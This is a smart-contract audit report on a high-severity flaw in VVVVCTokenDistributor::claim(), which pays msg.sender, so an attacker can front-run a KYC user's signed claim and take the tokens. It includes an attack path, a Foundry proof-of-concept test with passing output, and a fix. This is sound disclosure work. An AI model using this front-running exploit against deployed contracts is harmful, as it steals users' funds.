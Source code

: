 Puny Garnet Butterfly

High

# Attacker will steal claiming funds from legitimate KYC users

### Summary

The logic in the [`VVVVCTokenDistributor::claim()`](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L106-L145) **transfers the `projectToken` to the caller (`msg.sender`) instead of the intended `KYC address`**. This **enables an attacker to front-run the legitimate KYC user’s [`VVVVCTokenDistributor::claim()`](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L106-L145) transaction**, allowing the attacker to receive the claiming funds on behalf of the KYC address specified in the signature.


### Root Cause

In [VVVVCTokenDistributor.sol::L130-L136](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L130-L136), the logic claims the `projectToken` to the caller (`msg.sender`) instead of the `KYC address`. 

This root cause allow the attacker to front running the [`VVVVCTokenDistributor::claim()`](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L106-L145) call. 

This will steal the legitimate KYC user claiming funds and also block them to claim by that signature as it was used.

```solidity
File: vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol
106:     function claim(ClaimParams memory _params) public {
---
129:         // transfer tokens from each wallet to the caller
130:         for (uint256 i = 0; i < _params.projectTokenProxyWallets.length; i++) {
131:             projectToken.safeTransferFrom(
132:                 _params.projectTokenProxyWallets[i],
133:@>               msg.sender,    
134:                 _params.tokenAmountsToClaim[i]
135:             );
136:         }
```

### Internal pre-conditions

-

### External pre-conditions

As the [README](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/README.md#q-on-what-chains-are-the-smart-contracts-going-to-be-deployed) which is considered the **primary source of truth**, informs that the in-scope smart contracts will be deployed on both L1 and L2 chains:

> Q: On what chains are the smart contracts going to be deployed?
> Eth, base, bnb, avalanche, polkadot, arbitrum

This introduces the potential for front-running behavior.

### Attack Path

1. Alice do the KYC and put some investment tokens then she eligible to claim the `projectToken`
2. A trusted off-chain centralized system handles creating the claim signature for Alice that can claim `1000000e18` projectTokens
3. Alice want to claim her tokens
4. Stealer observes Alice's transaction, **front runs** and use that `Alice's claim params` to claim the Alice's claiming amount: `1000000e18`.
5. Alice's transaction is executed, since `nonce` is updated, Alice transaction reverts as [`InvalidNonce`](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L115-L117)
6. **Bob profits `1000000e18`** and **Alice loses `1000000e18` projectTokens**.

### Impact

KYC users who invest and are eligible to claim **lose their entire claiming amount during the claiming process**. The **attacker gains the full claiming amount** from legitimate KYC users.


### PoC

#### Setup
* Put the snippet below into the protocol test suite: `vvv-platform-smart-contracts/test/vc/VVVVCTokenDistributor.unit.t.sol` 
* Run test:
`forge test --match-test testClaimByAttacker -vvv`

#### Coded PoC
<details>
  <summary>Coded PoC</summary>

```solidity
    function testClaimByAttacker() public {
        // defind an attacker/stealer
        address stealer = makeAddr("Stealer");

        address[] memory thisProjectTokenProxyWallets = new address[](1);
        uint256[] memory thisTokenAmountsToClaim = new uint256[](1);

        thisProjectTokenProxyWallets[0] = projectTokenProxyWallets[0];

        uint256 claimAmount = sampleTokenAmountsToClaim[0];
        thisTokenAmountsToClaim[0] = claimAmount;

        VVVVCTokenDistributor.ClaimParams memory claimParams = generateClaimParamsWithSignature(
            sampleKycAddress,   //@audit -> legitimate KYC user -> Alice
            thisProjectTokenProxyWallets,
            thisTokenAmountsToClaim
        );

        // attacker claim on behalf of the `sampleKycAddress`
        vm.startPrank(stealer);
        TokenDistributorInstance.claim(claimParams);
        vm.stopPrank();
        // ensuring that the attacker can steal the claimAmount
        assertTrue(ProjectTokenInstance.balanceOf(stealer) == claimAmount);

        // assume that Alice claiming tx is executed after
        vm.startPrank(sampleKycAddress);
        vm.expectRevert(VVVVCTokenDistributor.InvalidNonce.selector);
        TokenDistributorInstance.claim(claimParams);
        vm.stopPrank();
    }
```
</details>

#### Result
Results of running the test:
```bash
Ran 1 test for test/vc/VVVVCTokenDistributor.unit.t.sol:VVVVCTokenDistributorUnitTests
[PASS] testClaimByAttacker() (gas: 123095)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 9.00ms (2.11ms CPU time)

Ran 1 test suite in 168.51ms (9.00ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

### Mitigation

Update the transfer logic to transfer tokens to the signed KYC address.

```diff
File: vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol
106:     function claim(ClaimParams memory _params) public {
---
129:         // transfer tokens from each wallet to the caller
130:         for (uint256 i = 0; i < _params.projectTokenProxyWallets.length; i++) {
131:             projectToken.safeTransferFrom(
132:                 _params.projectTokenProxyWallets[i],
-133:                 msg.sender,   
+133:                 _params.kycAddress,   
134:                 _params.tokenAmountsToClaim[i]
135:             );
136:         }
```